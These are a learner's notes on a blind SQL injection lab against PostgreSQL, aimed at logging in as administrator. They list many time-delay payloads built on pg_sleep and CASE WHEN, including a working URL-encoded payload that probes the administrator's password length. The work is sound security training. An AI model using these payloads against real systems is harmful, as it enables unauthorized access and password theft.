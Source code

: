 # The Lab
# Goal: Log in as Admin

# Preliminary Work
- Given: no different responses for errors or no rows or custom welcome messages returned
    - thus, conditional error payloads are not applicable
- Do conditional payloads with time delays

# Conditional Time Delay Exploitation
- Testing version of SQL with unconditional time delays
    - PostgreSQL: fake'||pg_sleep(10)-- (:white_check_mark:)
- Testing conditional time delays
    - PostgreSQL: fake'||SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
        - Loads normally? (:white_check_mark:)
    - Delays?
        - fake'||SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- (:x:)
        - fake'||SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake'||SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - fake'+SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake'+SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - fake';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END-- (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:x:)
        - fake';SELECT+CASE+WHEN+(1=1)+THEN+ pg_sleep(10)+ELSE+pg_sleep(0)+END# (:x:)
        - Looked at solution
            - Completely forgot about URL encoding lol
                - Imagine people actually santizing input lol
            - fake'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END-- (:white_check_mark:)
                - %3B = semicolon
                - Had good idea with plus signs
- Using conditional time delays to extract password characters

# Extracting Information
- Trying: fake'%3BIF+(SELECT+COUNT(username)+FROM+users+WHERE+username+=+'administrator'+AND+SUBSTRING(password,1,1)+>+'m')+=+1+THEN+pg_sleep(10)+ELSE+pg_sleep(0)-- (:x:)
    - Testing to see if the expression is true? (evaluates to 1) <-- PLEASE INVESTIGATE
    - Reminders:
        - Indexing begins from 1
        - First # is index
        - Second # is number of characters after first index to include
- Subsequent Attempts:
    - Replacing %3B with ||
    - Removing plus signs
    - Did not try changing comment characters cuz fake'||pg_sleep(10)-- works
- Looked at solution -> need to change syntax drastically lol
    - Put 'FROM users' at end of statement before comments
    - Replace 'SELECT COUNT' with 'SELECT CASE WHEN'
    - They use 'LENGTH(password)' to get length before spamming with guesses
        - Better strat than mine lol
    - Put 'END' when done with if statement
    - Removed '= 1' at end of if statment condition
    - Removed IF statement entirely
        - Using SELECT CASE WHEN
- Reformulating...
- New payload attempt: fake'%3BSELECT+CASE+WHEN+(username+=+'administrator'+AND+LENGTH(password)+>+1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- (:white_check_mark)
    - IT WORKS!!! -> need to continue testing for length


# Observations
- '||' concantenation works for unconditional time delays ONLY
- Might try the URL encoded semicolon on previous labs that I could not solve
- Stop trying to copy paste syntax from lessons
    - Figure out what you want to do and look up proper SQL syntax
    - Still learn strats from lessons, but apply syntax from own research
    - SQL cheat sheet might not be as helpful as it sounds
- Getting 504 Response = Timeout -> try opening new lab

